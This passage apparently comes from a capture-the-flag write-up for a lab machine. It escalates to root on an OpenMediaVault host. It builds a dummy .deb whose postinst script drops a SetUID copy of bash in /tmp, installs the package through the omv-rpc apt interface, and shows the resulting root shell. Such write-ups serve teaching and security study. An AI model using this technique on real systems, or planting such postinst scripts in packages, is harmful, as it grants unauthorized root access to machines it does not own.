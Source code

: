 Here I’ll just create a dummy empty package with a `postinst` script that will
run after install.

I’ll create a directory to work from, and inside that a `DEBIAN` directory:

    
    
    openmediavault-webgui@derailed:/dev/shm$ mkdir -p 0xdf/DEBIAN
    

Then I create the `control` file:

    
    
    openmediavault-webgui@derailed:/dev/shm$ cat 0xdf/DEBIAN/control
    Package: 0xdf
    Source: 0xdf
    Version: 0.0.1
    Architecture: amd64
    Maintainer: 0xdf
    Description: Does nothing at all...
    

Next I’ll create the `postinst` script:

    
    
    openmediavault-webgui@derailed:/dev/shm$ cat 0xdf/DEBIAN/postinst
    #!/bin/bash
    cp /bin/bash /tmp/0xdf2
    chmod 6777 /tmp/0xdf2
    

I’ll also need to make sure it’s set as executable:

    
    
    openmediavault-webgui@derailed:/dev/shm$ chmod +x 0xdf/DEBIAN/postinst
    

Now `dpkg-deb` will build it into a `.deb` file:

    
    
    openmediavault-webgui@derailed:/dev/shm$ dpkg-deb --build 0xdf
    dpkg-deb: building package '0xdf' in '0xdf.deb'.
    openmediavault-webgui@derailed:/dev/shm$ ls
    0xdf  0xdf.deb 
    

#### Install with apt RPC

I’ll invoke the RPC, and it returns a strange path in `/tmp`:

    
    
    openmediavault-webgui@derailed:/dev/shm$ /usr/sbin/omv-rpc -u admin apt install '{ "packages": ["/dev/shm/0xdf.deb"] }'
    "\/tmp\/bgstatusWWgLhR"
    

But still, `/tmp/0xdf2` is there and SetUID:

    
    
    openmediavault-webgui@derailed:/dev/shm$ ls -l /tmp/0xdf2 
    -rwsrwsrwx 1 root root 1234376 Jul 20 17:12 /tmp/0xdf2
    openmediavault-webgui@derailed:/dev/shm$ /tmp/0xdf2 -p
    0xdf2-5.1# id
    uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) euid=0(root) egid=0(root) groups=0(root),996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)
    